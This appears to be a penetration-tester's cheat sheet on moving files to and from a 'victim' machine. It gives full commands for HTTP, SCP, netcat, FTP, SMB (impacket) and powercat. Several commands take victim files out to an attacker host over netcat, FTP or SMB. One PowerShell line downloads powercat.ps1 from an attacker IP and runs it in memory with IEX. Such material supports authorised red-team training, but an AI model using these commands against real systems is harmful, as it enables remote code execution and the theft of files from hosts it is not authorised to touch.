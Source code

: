 # File-Transfer
## ****Upload files to the victim****

### ****Simple HTTP Server****

- Attacking machine command:
    
    `python -m SimpleHTTPServer 80`
    
    - Victim machine command:
    
     `wget http://192.168.1.35/FiletoTransfer`
    
    or
    

       `curl -o <FiletoTransfer> http://192.168.1.35/FiletoTransfer`

### **SCP(SSH utility)**

This method will only be valid if the target machine has ssh and we have the credentials.

- Attacking machine command:

`scp` `FiletoTransfer> tester@192.168.1.39:/home/tester/iron/`

### ****Netcat****

Victim machine command:

`nc` `-lvp 4444 > FiletoTransfer`

Attacking machine command:

`nc` `192.168.1.39 4444 -w 3 < FiletoTransfer`

### ****FTP****

Attacking machine command:

`twistd -n ftp` `-r .`

Victim machine command:

`wget ftp://192.168.1.35:2121/FiletoTransfer`

## ****Download victim files****

### ****FTP****

Attacking machine command:

1                  `python -m pyftpdlib -w`

Victim machine command:

1

2

3

4

5

`ftp`

`open` `10.10.10.1 2121`

`anonymous`

`put FiletoDownload`

`bye`

### ****Netcat****

Attacking machine command:

`nc` `-lvp 4444 > FiletoDownload`

Victim machine command:

`nc.exe 10.10.10.1 4444 -w 3 < FiletoDownload`

### ****SMB****

Through impacket-smbserver we will mount a smb folder on our machine that we will access from the victim machine to copy the file to be downloaded in our SMB folder

Attacking machine command:

`impacket-smbserver -smb2support test` `.`

Victim machine command:

`copy  FiletoDownload \\10.10.10.1:8080\FiletoDownload`

### ****Powercat****

In this method we will load in memory the powercat module, a tool with which we can load a shell, send files. In this case we will use it for this same.

We have the powercat.ps1 file hosted on our machine and load it using the DownloadString function. We execute powercat to send the file and through wget we download it in our machine.

We will see that the download never ends but we will cancel it when it may have finished depending on the size of the file.

- Victim machine command:1`powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.1/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoDownload"`Attacking machine command:1`wget http://10.10.10.2:4444/FiletoDownload`

Tools:

[netcat](http://netcat.sourceforge.net/), [impacket](https://github.com/CoreSecurity/impacket), [pyftpdlib](https://github.com/giampaolo/pyftpdlib), [powercat](https://github.com/besimorhino/powercat), [twistd](https://twistedmatrix.com/documents/17.5.0/core/howto/basics.html#application)
